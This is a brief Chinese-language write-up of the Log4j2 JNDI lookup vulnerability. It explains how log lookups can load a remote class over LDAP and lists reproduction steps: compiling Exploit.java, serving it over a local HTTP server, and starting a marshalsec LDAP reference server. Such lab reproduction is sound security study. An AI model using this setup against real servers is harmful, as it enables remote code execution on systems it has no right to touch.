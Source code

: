 ### 0x01 漏洞原理
用我的理解简单概括一下，log4j2在输出日志的时候除了支持常见的变量替换还支持远程获取内容（远程获取内容由Lookups功能提供），例如
```
# 变量替换
logger.info("user name: {}, alias name: {}", userName, aliasName)
```
远程获取内容支持多种维度，其中就包括jndi，如下图
![image](./Lookups.png)  
jndi简单讲就是一个类似于字典的数据集，传入名称，获取对应的对象，不过jndi还有一个危险的特性，可获取远程class或远程class的地址，加载到本地后通过classloader执行，这个时候如果用户传入一个包含恶意class的地址，则会导致服务器执行恶意代码，具体利用的话需要结合jndi支持的协议，jndi支持ladp、rmi、corba、dns四种协议，如下复现我们选择ldap协议


### 0x02 漏洞复现
1、javac.exe .\Exploit.java  
2、python3.exe -m http.server 8800  
3、java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit  

4、结果如下图  
![image](./dnglog.png)  
![image](./calc.png)  